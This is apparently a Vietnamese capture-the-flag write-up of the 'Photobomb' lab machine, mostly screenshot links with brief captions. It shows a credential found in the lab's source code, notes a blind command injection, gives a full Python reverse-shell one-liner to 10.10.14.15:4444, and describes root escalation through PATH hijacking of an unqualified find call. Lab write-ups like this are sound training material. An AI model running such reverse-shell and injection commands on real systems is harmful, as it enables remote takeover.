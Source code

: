# photobomb

![https://lh7-us.googleusercontent.com/OsN54M5VBim4rXCuP3PoYJLp8CvHv_XSKc8qM258yjlaVBlqQ3HQ6oDVOxooEyfFb90YbI-5GEwqUiR0RYr9j8J1slNVhjnIH3V56NYP9DTokFnDuU-rqSUXb_cP28nZWGPr3UoRhext](https://lh7-us.googleusercontent.com/OsN54M5VBim4rXCuP3PoYJLp8CvHv_XSKc8qM258yjlaVBlqQ3HQ6oDVOxooEyfFb90YbI-5GEwqUiR0RYr9j8J1slNVhjnIH3V56NYP9DTokFnDuU-rqSUXb_cP28nZWGPr3UoRhext)

không tìm thấy subdomain

![https://lh7-us.googleusercontent.com/pYVZHBjlgRUwrPoKCYQO66vFRU1W1ER8_hw8MLO3_aNIwQyzqMw3U2qxFpHnsDJU1rxLL1mCTCzI48wwE7FztFvRrJBHRoO73O3UE9WrW3u_WqKfGx39qKAXM0g60Ek1x1yp4gkfLFlh](https://lh7-us.googleusercontent.com/pYVZHBjlgRUwrPoKCYQO66vFRU1W1ER8_hw8MLO3_aNIwQyzqMw3U2qxFpHnsDJU1rxLL1mCTCzI48wwE7FztFvRrJBHRoO73O3UE9WrW3u_WqKfGx39qKAXM0g60Ek1x1yp4gkfLFlh)

truy cập p80

![https://lh7-us.googleusercontent.com/4vj5x4q8vBcqE43ICPTBfC371Bj-LAmhG2ilKaRJT3Uz7r60G5WY6oNva1NnfE0ftXnifD3JeK6kkX3bxoshC6dyCBHfCtrP-edrKiEphFhR4O0ebdrILKH7EZN62YbKzPg3AO7uHtZN](https://lh7-us.googleusercontent.com/4vj5x4q8vBcqE43ICPTBfC371Bj-LAmhG2ilKaRJT3Uz7r60G5WY6oNva1NnfE0ftXnifD3JeK6kkX3bxoshC6dyCBHfCtrP-edrKiEphFhR4O0ebdrILKH7EZN62YbKzPg3AO7uHtZN)

/printer

![https://lh7-us.googleusercontent.com/TVlP-N1XtHyxJtUMSCSofEHmPhzOA2-7dp4dTlGvskPHEQnKmo8H-ZdMkizWfh8b6A0COOw2jA7g0fj-QjAk-olljzl2ZVP8GheOUp0bhTLI5FOJpgGJ2tf4Q1e91Fdmjd0PllNVSyXJ](https://lh7-us.googleusercontent.com/TVlP-N1XtHyxJtUMSCSofEHmPhzOA2-7dp4dTlGvskPHEQnKmo8H-ZdMkizWfh8b6A0COOw2jA7g0fj-QjAk-olljzl2ZVP8GheOUp0bhTLI5FOJpgGJ2tf4Q1e91Fdmjd0PllNVSyXJ)

phân tích source code

![https://lh7-us.googleusercontent.com/RrUr4yFNFgt8rbARgzYKvN4R86yOcv0I9DE4ITzEBYGAPdgZWDDr_x9uSpMPHkapjN3S-CD6djplIcrhZy6Ir3X-XJifXATfriFU5WPXaAaLukUbuolaOunlCzfIM_YRkYdu3B3iGnW3](https://lh7-us.googleusercontent.com/RrUr4yFNFgt8rbARgzYKvN4R86yOcv0I9DE4ITzEBYGAPdgZWDDr_x9uSpMPHkapjN3S-CD6djplIcrhZy6Ir3X-XJifXATfriFU5WPXaAaLukUbuolaOunlCzfIM_YRkYdu3B3iGnW3)

tìm thấy credential

![https://lh7-us.googleusercontent.com/eODX-fiQCYGR1J2HivI6DjmlMJSYwa2i189qyXuycbALHbR4_wdeDpfHbLvZLxGHkxTh1kGprJ5m7NR_M2SU5I17tRL3r5Dpf8IwPfUJ7kLWhaEErL8kR2DXAWBrmgoXjBZWFsskzI6H](https://lh7-us.googleusercontent.com/eODX-fiQCYGR1J2HivI6DjmlMJSYwa2i189qyXuycbALHbR4_wdeDpfHbLvZLxGHkxTh1kGprJ5m7NR_M2SU5I17tRL3r5Dpf8IwPfUJ7kLWhaEErL8kR2DXAWBrmgoXjBZWFsskzI6H)

pH0t0 : b0Mb!

đăng nhập /printer

![https://lh7-us.googleusercontent.com/B0LAqPUp3eNGDEgztIkPxVCPUVP9ygbGYaAE3XBJolCA3IuCWSbhnJW8Gx7ujnaZUq1CZ-5CVLgNwYzhXk-7ptwSiB-0juxNDIJgzR7q56FbrnVfamlF0ryIZjkCVz-PFf5l_bB9WOk_](https://lh7-us.googleusercontent.com/B0LAqPUp3eNGDEgztIkPxVCPUVP9ygbGYaAE3XBJolCA3IuCWSbhnJW8Gx7ujnaZUq1CZ-5CVLgNwYzhXk-7ptwSiB-0juxNDIJgzR7q56FbrnVfamlF0ryIZjkCVz-PFf5l_bB9WOk_)

thấy chức năng download có thể bị blind command injection time-based

![https://lh7-us.googleusercontent.com/HL3M9icKsLwR2AKCRHP_KIG-U4cBSfCFiXY0DA6AscsT0sFWI16C77_vAS3HRmZwzHLNjMiHu-VsBD1qsc-6WQBNJKRsAHPkPXmm9aOx_gkZ0F4rNFjhYbLfddgl4FiaNLvu79RIH_iB](https://lh7-us.googleusercontent.com/HL3M9icKsLwR2AKCRHP_KIG-U4cBSfCFiXY0DA6AscsT0sFWI16C77_vAS3HRmZwzHLNjMiHu-VsBD1qsc-6WQBNJKRsAHPkPXmm9aOx_gkZ0F4rNFjhYbLfddgl4FiaNLvu79RIH_iB)

![https://lh7-us.googleusercontent.com/Id652GjOJdtyaVml7crUvHu-IA8grr6iXInX9uU-CmccvWC_wF4Kwy73Khsf9ThlOQYKZN8MR2BEoR4xuP3zJS8wJXvdZWeJL1B9UHxLMQwaS66cqVEGaDsDblcnuELueE9x0Qr5ptmx](https://lh7-us.googleusercontent.com/Id652GjOJdtyaVml7crUvHu-IA8grr6iXInX9uU-CmccvWC_wF4Kwy73Khsf9ThlOQYKZN8MR2BEoR4xuP3zJS8wJXvdZWeJL1B9UHxLMQwaS66cqVEGaDsDblcnuELueE9x0Qr5ptmx)

tạo reverse shell

![https://lh7-us.googleusercontent.com/t0E5Ynr8OoEdQRnPdfPDT4WQA8pBXrXf6RDBEM0xKNGP1o3Rnd17632tcRIzLZh6FvZz6l5cVTI8mUu5pqScpl55laHCEuSh2f0fvB757yy6KYeL8RsYJWcimWg5QrBh1urgX6BjkeK3](https://lh7-us.googleusercontent.com/t0E5Ynr8OoEdQRnPdfPDT4WQA8pBXrXf6RDBEM0xKNGP1o3Rnd17632tcRIzLZh6FvZz6l5cVTI8mUu5pqScpl55laHCEuSh2f0fvB757yy6KYeL8RsYJWcimWg5QrBh1urgX6BjkeK3)

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

![https://lh7-us.googleusercontent.com/GTD1h8IRUpbUXj7cQR7g_yL3R-wW8AjWYf2Yx7KsmU7DTIo2dXAhCt3yJpf_O_iI69jGrzndIgnh3uXASfsGvW9Wb95J_S8gTJjiOVpcdcKyVlx4sL3QuDrVT_rz5QfWDmmmK9toG5Ne](https://lh7-us.googleusercontent.com/GTD1h8IRUpbUXj7cQR7g_yL3R-wW8AjWYf2Yx7KsmU7DTIo2dXAhCt3yJpf_O_iI69jGrzndIgnh3uXASfsGvW9Wb95J_S8gTJjiOVpcdcKyVlx4sL3QuDrVT_rz5QfWDmmmK9toG5Ne)

![https://lh7-us.googleusercontent.com/R9_6mNnoQe7QuZe5emHSrRtL8rcStBMcDFYlKrQqdddUi23iP2e6pmaE2VkZcoSEC_S_2ZOjhZWGpznBuiCbc5D_myIRDtbY8xIcJTZDkrTsp6tAKZ-vT-9RE8OKf6fIYvnnTJl4D3QY](https://lh7-us.googleusercontent.com/R9_6mNnoQe7QuZe5emHSrRtL8rcStBMcDFYlKrQqdddUi23iP2e6pmaE2VkZcoSEC_S_2ZOjhZWGpznBuiCbc5D_myIRDtbY8xIcJTZDkrTsp6tAKZ-vT-9RE8OKf6fIYvnnTJl4D3QY)

![https://lh7-us.googleusercontent.com/C6yoqnYPPFYTZvOyA-2qtvALVA5kBC7Vz3IQ0MCZvDmKUP1k6uzSDK8kutVpN2yRvZCjiosbxWlTWIv5yqXjEGSw1bgQSyPrdLnGuHVBLj1RShGaqQyIpzrAvyNyTtE1WC1BtW47EPX0](https://lh7-us.googleusercontent.com/C6yoqnYPPFYTZvOyA-2qtvALVA5kBC7Vz3IQ0MCZvDmKUP1k6uzSDK8kutVpN2yRvZCjiosbxWlTWIv5yqXjEGSw1bgQSyPrdLnGuHVBLj1RShGaqQyIpzrAvyNyTtE1WC1BtW47EPX0)

![https://lh7-us.googleusercontent.com/CZmqRbui2eBo0Y0diq75uZJtzhSljyuqBI4rYCenVDtqGMxaUwq3O1KlaFt08KYjI5vFpwjxKhi2lOhdYCXs1RL642z1SymBWxGt9XmVvWMjlx8C7dbmBjjp3Q6ij5LyK6MoozYZiYQP](https://lh7-us.googleusercontent.com/CZmqRbui2eBo0Y0diq75uZJtzhSljyuqBI4rYCenVDtqGMxaUwq3O1KlaFt08KYjI5vFpwjxKhi2lOhdYCXs1RL642z1SymBWxGt9XmVvWMjlx8C7dbmBjjp3Q6ij5LyK6MoozYZiYQP)

nội dung file /opt/cleanup.sh

![https://lh7-us.googleusercontent.com/95fsRICWvJ7K5Jj5mkzgbtsn8HyckDc4aga_QkzWRpEk7sDnXUjl75dznGoMJu7xGLSg8fJ2vP9Vo6yJ8gV2H2jRj71JvPnxGX2bWMd0Ed9f1xLTReek8xo9EABzMXRA_1heo6ioyrY_](https://lh7-us.googleusercontent.com/95fsRICWvJ7K5Jj5mkzgbtsn8HyckDc4aga_QkzWRpEk7sDnXUjl75dznGoMJu7xGLSg8fJ2vP9Vo6yJ8gV2H2jRj71JvPnxGX2bWMd0Ed9f1xLTReek8xo9EABzMXRA_1heo6ioyrY_)

Tập lệnh này đang chuyển sang /home/wizard/photobomb, trong đó với -s nó sẽ kiểm tra xem photobomb.log có tồn tại và kích thước khác rỗng không, với -L và ! nó kiểm tra xem tệp nhật ký có phải là symbolic link hay không, sau đó ghi đè nội dung của photobomb.log lên photobomb.log.old và xóa nội dung của tệp nhật ký, sau đó dùng Find để tìm tất cả các tệp jpg và tạo quyền root làm chủ sở hữu của những hình ảnh đó

lệnh find không được chạy qua đường dẫn tuyệt đối -> có thể lạm dụng nó bằng cách tạo một tệp sẽ sinh ra bash bằng cách đặt các biến môi trường mà qua đó có thể khai thác biến PATH

![https://lh7-us.googleusercontent.com/nBdgXg-qjA0TLPH1cHYSnXAIZ2LJ9lENqaPS1n61EY4horAa-7aiAGSo6at26nwT44ap9iOyhBHLKcWVUYx3YUYnHCbg23i-HM8T2jC4j-x9SlN1rAbYgd7zFEVGPd2CAdlC6T_BJgNx](https://lh7-us.googleusercontent.com/nBdgXg-qjA0TLPH1cHYSnXAIZ2LJ9lENqaPS1n61EY4horAa-7aiAGSo6at26nwT44ap9iOyhBHLKcWVUYx3YUYnHCbg23i-HM8T2jC4j-x9SlN1rAbYgd7zFEVGPd2CAdlC6T_BJgNx)

![https://lh7-us.googleusercontent.com/DW9a2k2gReEGE4jlPqS9M8Ll6hBImjIS8wPTDUaEI2fNqBwfUTdlHj1wQRlbUVcbfjJ8cQQLnsdml8-h6hV5EVBSnZOkMKKs9fR0TAJKRL3n3vkTbiF227LYQasOfMl51y-l9fXS9k1t](https://lh7-us.googleusercontent.com/DW9a2k2gReEGE4jlPqS9M8Ll6hBImjIS8wPTDUaEI2fNqBwfUTdlHj1wQRlbUVcbfjJ8cQQLnsdml8-h6hV5EVBSnZOkMKKs9fR0TAJKRL3n3vkTbiF227LYQasOfMl51y-l9fXS9k1t)